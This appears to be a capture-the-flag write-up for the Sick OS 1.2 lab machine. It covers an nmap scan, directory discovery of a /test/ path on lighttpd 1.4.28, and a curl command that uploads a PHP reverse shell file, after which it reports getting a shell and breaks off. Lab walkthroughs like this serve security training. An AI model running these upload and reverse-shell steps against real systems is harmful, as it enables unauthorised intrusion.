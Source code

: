 # Sick OS 1.2 write Up 

## Getting the target IP, I used arp-scan 

> Target ip: 192.168.100.10

## Network Scanning and Exploitation 

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Sick0s1_2]
└─$ nmap -sV -sC 192.168.100.10 -p- -o nmap_full_scan 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-22 05:36 EDT
Nmap scan report for 192.168.100.10
Host is up (0.0027s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)                                                                      
80/tcp open  http    lighttpd 1.4.28                                                                                                 
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:36:FF:D2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.52 seconds

```

Here only 2 ports are open 22 and 80 22 does not seems to have vulnearability, lets access the port 80 using browser

![homepage](screenshots/homepage.png)

It has nothing interesting, lets use GoBuster to find the hidden dir's and got only one enpoint that is `/test/` 

On navigating, `/test/` I got the following page:
![/test/ page](screenshots/test_page.png)

Here I got no hints, but their is indcation of `lighttpd/1.4.28` and when I searched for it in exploit-db I got the following vulnearbility in the following version.

![vulnearability in version](screenshots/upload.png)

So here I got vulnearability that I can upload the file here,so here I will upload a php reverse shell file and take the reverse shell connection

```bash
curl --upload-file rev.php -v -url http://192.168.100.10/test/
```

### Here, I got the reverse shell
![reverse shell](screenshots/shell.png)

## Enumeration

